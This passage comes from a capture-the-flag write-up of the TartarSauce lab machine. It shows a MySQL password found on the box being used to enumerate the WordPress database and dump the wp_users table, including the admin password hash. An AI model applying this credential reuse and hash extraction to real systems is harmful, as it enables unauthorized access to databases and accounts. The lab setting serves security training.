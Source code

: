 ```bash
n/a                          n/a           n/a                          n/a          snapd.snap-repair.timer      snapd.snap-repair.service                                               
n/a                          n/a           n/a                          n/a          ureadahead-stop.timer        ureadahead-stop.service   
```

Two things are found.
- mysql credential is found : `wpuser` : `w0rdpr3$$d@t@b@$3@cc3$$`
- `backuperer.timer` is running.

##### mysql

```bash
onuma@TartarSauce:/$ mysql -u wpuser -p'w0rdpr3$$d@t@b@$3@cc3$$' -e 'show databases;'
<-u wpuser -p'w0rdpr3$$d@t@b@$3@cc3$$' -e 'show databases;'                  
mysql: [Warning] Using a password on the command line interface can be insecure.
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wp                 |
+--------------------+
onuma@TartarSauce:/$ mysql -u wpuser -p'w0rdpr3$$d@t@b@$3@cc3$$' -e 'use wp;show tables;'
<-u wpuser -p'w0rdpr3$$d@t@b@$3@cc3$$' -e 'use wp;show tables;'              
mysql: [Warning] Using a password on the command line interface can be insecure.
+-----------------------+
| Tables_in_wp          |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_gwolle_gb_entries  |
| wp_gwolle_gb_log      |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
onuma@TartarSauce:/$ mysql -u wpuser -p'w0rdpr3$$d@t@b@$3@cc3$$' -e 'use wp;select * from wp_users;'
<-u wpuser -p'w0rdpr3$$d@t@b@$3@cc3$$' -e 'use wp;select * from wp_users;'   
mysql: [Warning] Using a password on the command line interface can be insecure.
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | wpadmin    | $P$BBU0yjydBz9THONExe2kPEsvtjStGe1 | wpadmin       | wpadmin@test.local |          | 2018-02-09 20:49:26 |                     |           0 | wpadmin      |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
```
